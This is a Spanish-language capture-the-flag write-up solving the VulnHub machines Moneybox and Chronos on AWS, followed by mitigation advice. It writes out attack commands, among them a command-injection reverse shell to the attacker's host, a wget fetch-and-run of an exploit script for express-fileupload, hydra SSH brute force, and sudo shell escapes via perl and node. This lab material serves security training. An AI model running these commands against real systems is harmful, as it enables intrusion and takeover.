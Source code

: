 # Introducción
En este proyecto se efectúa la solución a 02 máquinas CTF(Capture The Flag) del repositorio de Vulnhub: [Moneybox](https://www.vulnhub.com/entry/moneybox-1,653/) y [Chronos](https://www.vulnhub.com/entry/chronos-1,735/), montadas en un entorno cloud empleando el servicio EC2 de AWS.

# Infraestructura
Tanto Moneybox como Chronos se montaron en diferentes instancias EC2, adicionalmente la máquina atacante con [Kali](https://www.kali.org/get-kali/#kali-platforms). Las 03 instancias se encuentran desplegadas en la misma VPC y se realiza el networking correspondiente para que se encuentren conectadas entre sí. Sin embargo la única máquina accesible desde fuera a través de una public IP es la máquina atacante.

**`Infraestructura inicial`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=11c5o4umxrLiI0OOnam64kf3EjaVgHJ2X"></img></p>

**`Infraestructura securizada con herramientas nativas AWS`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=1pADHae9b56royVwhx0JmwbbxH67-VIH5"></img></a>

# Moneybox (Técnicas aplicadas)
**`Scanning`**
```bash
$ nmap -sV <ip-target>
```
**`FTP abuse`**
```bash
$ ftp -U anonymous:anonymous <ip-target>
$ ftp > get
```
**`Steganography & HTTP abuse`**
```bash
$ xxd -l <specific-file>
$ curl <ip-target>:80
$ dirb <ip-target>:80
$ steghide extract -sf <specific-file>
```
**`SSH Brute Force`**
```bash
$ hydra -l <any-user> -P <dictionary.txt> -f <ip-target> ssh
```
**`Privilege escalation with PERL`**
```bash
$ sudo perl -e 'exec "/bin/sh";'
```
**`Execution diagram`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=1KeScz_V1E5-qjqXH3OwnRvCzOa4t1ueu"></img></p>

**`Flags`**
```bash
> us3r1{F14g:0ku74tbd3777y4}
> us3r{F14g:tr5827r5wu6nklao}
> r00t{H4ckth3p14n3t}
```

# Chronos (Técnicas aplicadas)
**`Scanning`**
```bash
$ nmap -sV <ip-target>
```
**`HTTP abuse & domain resolution`**
```bash
$ curl http://<ip-target>
$ echo "<ip-target> chronos.local" >> /etc/hosts
$ curl http://chronos.local
```
**`Deobfuscation, decode, payload generation & command injection (Reverse shell)`**
```bash
$ curl http://chronos.local/date?format=('+Today is %A, %B %d, %Y %H:%M:%S.'; bash -c 'bash -i >& /dev/tcp/<ip-kali>/9002 0>&1')[base58 Encode]
$ nc -nlvp 9002
```
**`www-data abuse`**
```bash
$ cd ../chronos-v2/backend
$ cat package.json
```
**`RCE attack to express-fileupload (versions < 1.1.10)`**
```bash
> Kali side:
$ nc -nlvp 8888
$ python3 -m http.server

> target-side
$ wget http://<ip-kali>:8000/pollutor.py
$ python3 pollutor.py
```
**`Abuse "imera" user & Shell spawn with NODE`**
```bash
$ sudo -l
$ sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```
**`Execution diagram`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=1iwHlQc8Gl9fvGv-oV7CMMLNU5yXst9Yy"></img></p>

**`Flag`**
```bash
> YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK
```
# Medidas de mitigación de vulnerabilidades encontradas
**`Moneybox`**
+ Actualizar el servicio FTP a su ultima versión y si es posible migrar hacia otro puerto.
+ Eliminar el acceso FTP anónimo (anonymous:anonymous) asignar un usuario y una contraseña.
+ Utilizar certificados lugar de contraseñas de usuario para el acceso por SSH.
+ Emplear herramientas que eviten ataques de fuerza bruta tales como: **fail2ban** y **fwknop**.
+ Editar el fichero /etc/sudoers asignando los mínimos privilegios a grupos y usuarios.
+ Hardening del servidor web Apache.
+ Utilizar infraestructura adicional como IDS/IPS (mostrada en infraestructura securizada nativa de AWS).

**`Chronos`**
+ Evitar malas prácticas en el desarrollo backend: Evitar uso directo de comandos del sistema en el código o en su defecto, mitigar el uso de *keywords* tales como: bash, sh, whoami, etc.
+ Prevenir accesos mediante reverse-shell a través de NODE modificando el atributo de express-fileupload a **{parseNested: false}**.
+ Asignar lo mínimos privilegios mediante el fichero /etc/sudoers.
+ Emplear infraestructura securizada adicional (como la nativa proporcionada por AWS).
